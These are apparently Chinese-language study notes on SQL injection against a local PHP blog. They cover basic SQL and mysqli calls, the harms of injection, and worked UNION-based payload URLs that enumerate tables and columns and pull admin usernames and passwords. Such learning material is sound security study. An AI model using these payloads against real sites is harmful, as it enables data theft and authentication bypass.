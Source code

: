 
博客系统代码

sql语句

```sql
select id,username,password from user;
update page set title='aaa',content='bbb' where id =1;
delete from page where id =1;
insert into page (title,content) values('aaa','bbb');
```


php语句

```php
$conn = new mysqli($host,$username,$password,$db,$port);
$conn->query();     		#执行sql语句
$result->fetch_all();       #拿到所有结果
$result->fetch_array();     #拿到一行结果
```


sql注入的危害

歪曲了sql语句的执行结果
泄露了数据库中的敏感数据
干扰查询结果，劫持查询的流程，绕过了权限检查
通过文件操作写入恶意代码，可能造成rce

### sql注入的类型

#### 数字型注入和union 注入

http://127.0.0.1/page_detail.php?id=1 union select 1,(select password from user where username='admin'),3 limit 1,2

#### 字符型注入

前面闭合 后面注释  来逃逸出单引号或者双引号
http://127.0.0.1/page_detail.php?id=1' union select 1,(select password from user where username='admin'),3 limit 1,2%23

查所有表 

http://127.0.0.1/page_detail.php?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 limit 1,2%23

查所有列

http://127.0.0.1/page_detail.php?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='user' and table_schema=database()),3 limit 1,2%23

查敏感数据

http://127.0.0.1/page_detail.php?id=1' union select 1,(select group_concat(username,'-',password) from user),3 limit 1,2%23



注释两种形式   #   --空格
